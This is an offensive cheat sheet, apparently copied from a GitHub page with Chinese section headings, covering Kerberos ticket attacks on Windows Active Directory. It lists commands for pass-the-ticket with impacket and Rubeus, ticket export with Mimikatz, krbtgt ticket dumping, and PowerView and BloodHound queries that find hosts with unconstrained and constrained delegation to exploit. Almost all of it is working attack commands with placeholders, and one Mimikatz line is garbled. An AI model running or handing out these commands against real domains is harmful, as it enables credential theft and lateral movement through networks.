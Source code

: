 ```
python getTGT.py <domain>/<user> -hashes :<hashes>
export KRB5CCNAME=/root/impacket-examples/domain_ticket.ccache
python psexec.py <domain>/<user>@<ip> -k -no-pass

Rubeus asktgt /user:victim /rc4:<rc4value>
Rubeus ptt /ticket:<ticket>
Rubeus createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]
Rubeus ptt /luid:0xdeadbeef /ticket:<ticket>
```

## 3.非约束委派

### 获取票据

```
privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export

Rubeus dump /service:krbtgt /nowrap

Rubeus dump /luid:0xdeadbeef /nowrap
```

### 查找非约束委派主机

```
Get-NetComputer -Unconstrained

Get-DomainComputer -Unconstrained -Properties DnsHostName

MATCH (c:Computer {unconstraineddelegation:true}) RETURN c

MATCH (u:User {owned:true}), (c:Computer {unconstraineddelegation:true}), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

## 4.约束委派

### 获取票据

```
privilege::debug sekurlsa::tickets /export sekurlsa::tickets /

Rubeus dump /service:krbtgt /nowrap

Rubeus dump /luid:0xdeadbeef /nowrap
```

### 查找约束委派主机

```
Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo

MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p

MATCH (u:User {owned:true}), (c:Computer {name: "<MYTARGET.FQDN>"}), p=shortestPath((u)-[*1..]->(c)) RETURN p
```
